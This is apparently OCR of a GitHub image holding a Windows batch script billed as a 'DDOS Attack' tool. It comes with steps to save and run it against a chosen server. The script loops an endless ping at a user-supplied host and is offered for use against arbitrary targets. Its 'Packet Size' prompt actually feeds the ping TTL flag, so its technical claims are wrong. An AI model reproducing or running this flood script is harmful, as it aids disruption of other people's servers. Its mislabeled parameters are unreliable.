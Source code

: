 
1) copy paste the following code in to youre notepad

@echo off
mode 67,16
title DDOS Attack by MR Jack
color 0a
cls
echo.
echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ
echo DDOS With Batchfile
echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ
echo.
set /p x=Server-Target:
echo.
echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ
ping %x%
echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ
@ping.exe 127.0.0.1 -n 5 -w 1000 > nul
goto Next
:Next
echo.
echo.
echo.
set /p m=ip Host:
echo.
set /p n=Packet Size:
echo.
:DDOS
color 0c
echo Attacking Server %m%
ping %m% -i %n% -t >nul
goto DDOS

2) its a batch file so save it as whateveruwant.bat
3) run it and select the server target, the ip and how many packets you want to send to the server and then press enter

Enjoy

